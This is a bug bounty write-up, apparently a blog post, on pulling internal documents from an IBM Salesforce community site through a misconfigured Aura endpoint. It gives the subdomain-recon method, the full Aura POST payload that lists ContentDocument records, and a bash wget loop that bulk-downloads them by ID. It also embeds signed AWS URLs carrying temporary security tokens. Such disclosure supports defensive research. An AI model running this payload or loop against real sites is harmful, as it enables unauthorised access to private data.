 ```yaml
---
title: "How I was able to access IBM internal documents"
classes: wide
header:
  teaser: /assets/images/crackmes1/ibm.jpg
ribbon: DodgerBlue
description: "How to exploit Salesforce misconfiguration in the wild"
categories:
  - bugbounty
toc: true
---
```


Hi, today I will share how I was able to access internal data of https://weathercommunity.ibm.com using salesforce misconfiguration.

This write-up will depends n this great blog: https://web.archive.org/web/20210125200757/https://www.enumerated.de/salesforce
so please read it first then read this write-up.

After I read this blog, I wanted to exploit it in the wild so I now I wanted to see the subdomains which point to on of the following CNAMEs:

*.force.com

*.secure.force.com

*live.siteforce.com

I used this great tool https://github.com/yghonem14/cngo to get CNMAEs of all the websites that have program 
on hackerone through https://chaos.projectdiscovery.io/

I found this subdomain **weathercommunity.ibm.com** which pointing out to: **thercommunity.ibm.com.00de0000000avgcma2.live.siteforce.com**

I found an endpoint like:
     
![](https://images.squarespace-cdn.com/content/v1/5f7770a896185c777e49b396/1602179691337-ZXQYGZ11DJ60P6T3RURB/ke17ZwdGBToddI8pDm48kD6aNKZxB3DN5p6JsVrwzw1Zw-zPPgdn4jUwVcJE1ZvWQUxwkmyExglNqGp0IvTJZcY1lis3u7ujHaqKviAjfgBXb2P7ACMlJX44aBDLb--xfEjN8oatzV-2psMy5gKWM4rq4TCJTzAyL25jm0DX3aYLdXwLHXSvXM5NA8ifPwj1/aura_query.PNG?format=2500w)

then I sent this POST request to the Repeater and changed the ***Message*** parameter to:
```
{"actions":[{"id":"123;a","descriptor":"serviceComponent://ui.force.components.controllers.lists.selectableListDataProvider.SelectableListDataProviderController/ACTION$getItems","callingDescriptor":"UNKNOWN","params":{"entityNameOrId":"MARKER","layoutType":"FULL","pageSize":100,"currentPage":0,"useTimeout":false,"getCount":false,"enableRowActions":false}}]}

```
Replacing the ***MARKER*** string with:

***ContentDocument***

![](https://hackerone-us-west-2-production-attachments.s3.us-west-2.amazonaws.com/yhbkptntl3ejirmp120m63bww7qp?response-content-disposition=attachment%3B%20filename%3D%22sscx.png%22%3B%20filename%2A%3DUTF-8%27%27sscx.png&response-content-type=image%2Fpng&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIAQGK6FURQVWUV5OPW%2F20220304%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220304T203539Z&X-Amz-Expires=3600&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEPr%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaCXVzLXdlc3QtMiJIMEYCIQCKkKDd%2FYAGDreUjy2PkCVyL4WkLDfQdTTWK%2FQQ%2BXV9dgIhAP4SLBQum5dkwla7qA0bALGXc3YLMn3%2FN5%2B4k4%2FnFNb%2BKvoDCGMQAhoMMDEzNjE5Mjc0ODQ5IgxVuaWbVMzYX%2FFfL7Iq1wMPdnxlUWbOCNct9xMVEH9uFip3Cq%2FZUlXK4B77TUcv5jwABvySCfeeihj1EhLuYl5%2FHWIFvcFJmz2I3KxTEhQ0%2FSdmpvmPDMJuX%2BJ7VBRTX90TG2LOtqeQo6Ahjw4qwMm2UwxvqRv0H%2BfcyBSaI8R7kCZSy4van5BLEcx0nDb%2BnvzekJTklkAOAck4EWN45ZhghIMEJz3W2gdnaSdGKKUekX30a6Mzn7%2BZyrAmEXLKNWqWrCHmr5z%2FAAHihOuqRXSJZaVO6vjW3Tnc1WxmBU4686gtnww41do6IWnHeHDpnMGqHU0zzmi3MU7wQlQH12TYux8s9Vo%2FX%2BANL4LlZbaaYjiSTzZN7S9Mv4MLkygTp4akIT1IXnSE0Njao8utUIT0hieUBCVGKw%2BpaOMJAkMIHQ%2BVToZNO13kP5gdy46BUoqJzqx2XykjU2gLpt2ScOnfCywoYyQxYkX%2FW4ndpHh5UThQaI47ySTKz79L8zg3%2B03WBxUKzzIynXiwfNsq1MY7wPJUrAdD4jDvwnvbwIrCtjJPLDTd4wu2GKNmep15vWBADnE21Rl%2FPgnGbdEQdWN%2FAcM5w3fskXZlwOTA%2F9FqYKvunPLzApawYmt3p%2FyRWZMVdC%2FRF2cw%2FKWJkQY6pAFllJRyfbRP6sIt%2BHrwTfQdejbA4WjdSyNC4Jsi9xsQS4EdtGOBD%2FzZ%2B3CEkgTXlHuCE5v0mQG9EcagoiB9viBTO7MF%2Bo4%2FPo7CEPfokbbjM2BNv2GoQt7WxPpGgVKojb76omwz7VVH1bx0ia2VId2Y7JZw3%2Bhh6OH2%2BqzokDzfJpDSAstF%2FTiA6zHYS1svfGO1yZIV9seNB0XtBjkFPBKo%2BcjGmg%3D%3D&X-Amz-SignedHeaders=host&X-Amz-Signature=ff19e6685aa66f4735dcd739fd13b496c5b21cf58a5f37667d26f4a4a11126d6)

See that there are more than 900 ID.
I extracted the ID value which started with 069 and made a simple bash script to download them one by one
through this endpoint /sfc/servlet.shepherd/document/download/$ID

https://weathercommunity.ibm.com/sfc/servlet.shepherd/document/download/ID

Example: 

https://weathercommunity.ibm.com/sfc/servlet.shepherd/document/download/0690h0000060wuHAAQ

```
while read i
do wget --no-check-certificate "https://weathercommunity.ibm.com/sfc/servlet.shepherd/document/download/$i"
done < $1

```

Sample of the internal images:

![](https://hackerone-us-west-2-production-attachments.s3.us-west-2.amazonaws.com/9p4dbjafg8rtktxubh37ohuyc14s?response-content-disposition=attachment%3B%20filename%3D%220690h000007Aly3AAC%22%3B%20filename%2A%3DUTF-8%27%270690h000007Aly3AAC&response-content-type=image%2Fpng&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIAQGK6FURQZYNIBA6H%2F20220304%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220304T204708Z&X-Amz-Expires=3600&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEPr%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaCXVzLXdlc3QtMiJIMEYCIQD37f9Upttrr7X0u6Lv9S58bOu6vWvhE5W9%2BqsSiAPkjQIhAKfSpjXF99Cv13J7IfRx2KBI3dOZ%2Bcw5BHX1tw9wq07%2FKvoDCGMQAhoMMDEzNjE5Mjc0ODQ5IgzJyEflzTkp01Ectdsq1wMY9x4YZa6ek3mI86HYnVRSL%2FG%2Bt1kJ%2BewpNkdxHW%2FCc4xWoQnS5n3Er0OEcodDpvldfFFDnlnww5yhAlcX1pUK8bfILR7b6XI3sr3WN16aNzzb5lOLSsoaMfYA2JGyRm9joy3TbXtQozCzmNT%2FNZ03iKBDc%2F5qxAKRa%2BAeLAGSyGeBbXitaOZ53QsWi3HWs7jKfSasgR%2F7N%2FpxdMsOn%2B02ufYcmakGBKwnzVqF2eaQtja75sd4I6aX3XxRaO4xdv4ESEMW6gWy2%2BWnT4p0dB3WdbKqzsImFJw5gLbpa9bPeyK0L2gLRdAjjhO%2FPUtx8fJ%2BekmnqFkXejWbrh5msiRvGL9KDITja4wurm5OvVwQo%2FwR16wNa0Dh7mcZiiDy2In2gPzHGDV4FxRW0NXY%2BcdhFLW9OMDVA%2Bd%2FsE2bcdKj3x9%2FlhMAz5Lgu%2BYnbQ8AWklSHBmP%2BUlsLDE%2Fk0NsTuzTwHSLHQ06zVGIM7V7TOZfjnaYbKUNF%2Bb1HCLJoxTYN3UqJC%2BWe8zE6Wi5gMFtFvAmc0oMr1jtfK3Un3dSLZGUxE9nx4A3RlLafBfxtiWCi2qa2rmVDrwIWvRctOx5bcFyNjzu1NAzZIx4ymQS3EqeZ1uKlp6y1t4w8KGJkQY6pAHsT0iIcDrjKOKLuVzwV%2BX%2BQZPYAAfyiSprxLAmJ6T8JhWjwc1VQtc7KEyFZKfq38antz5jzqT2sYLU3mku76D8AnCjurzoDRbRRbN4DxlQR3stAmWSam8w%2BKWmlCrgY10XCPxgmsAhhu7OsimMbMKcYdF%2BzmbC82gxo3we4RRkdHUMo1KMXR6wtHZaJ6ggJh5PA8ZcUqjCEO9gmTruotlPpHYHcA%3D%3D&X-Amz-SignedHeaders=host&X-Amz-Signature=c3f571905620666c9aac2c51b2aad54b409e3046da2614f705ed86c29e7e5fd2)

![](/assets/images/crackmes/crit.PNG)


***Final word:**
you will not understand anything if you did not read the blog first as he explained everything in it.
